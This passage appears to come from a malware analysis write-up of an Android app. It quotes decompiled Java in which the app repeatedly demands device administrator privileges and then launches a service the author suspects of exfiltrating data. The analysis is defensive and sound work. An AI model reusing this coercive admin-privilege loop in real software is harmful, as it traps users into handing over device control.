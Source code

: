 Once again, the service `GlobalCode` will be launched. Since it's a scheduled task, we can suppose that it could be a service used to exfiltrate data regularly.

### Asking for administration privileges

The routine `eba` will be called continuously, thanks to `startActivityForResult`, where a new call is done if the administration privileges haven't been granted:

> ```java
>protected void onActivityResult(int paramInt1, int paramInt2, Intent paramIntent){
>	if (8 == paramInt1) {
>		eba();
>	}
>}
> ```

and in `eba`, we can see that `GlobalCode` is called here too.

> ```java
>protected void eba(){
>	this.mDPM = (DevicePolicyManager)getSystemService(DEVICE_POLICY_SERVICE);
>	this.mAdminName = new ComponentName(this, MyAdmin.class);
>	Intent intent;
>	if (!this.mDPM.isAdminActive(this.mAdminName)){
>		intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
>		intent.putExtra("android.app.extra.DEVICE_ADMIN", this.mAdminName);
>		intent.putExtra("android.app.extra.ADD_EXPLANATION", "<some russian incomprehensible things>");
>		startActivityForResult(intent, 8);
>		return;
>	}
>	try{
>		if (Arrays.asList(getResources().getAssets().list("")).contains("autorun.html")){
>			intent = new Intent(this, GlobalCode.class);
>			intent.putExtra("content", "file:///android_asset/autorun.html");
>			intent.putExtra("type", "autorun");
>			intent.putExtra("data", "");
>			startService(intent);
>			finish();
>			return;
>		}
>	}
>	catch (IOException e){
>		e.printStackTrace();
>		return;
>	}
>	finish();
>}
> ```
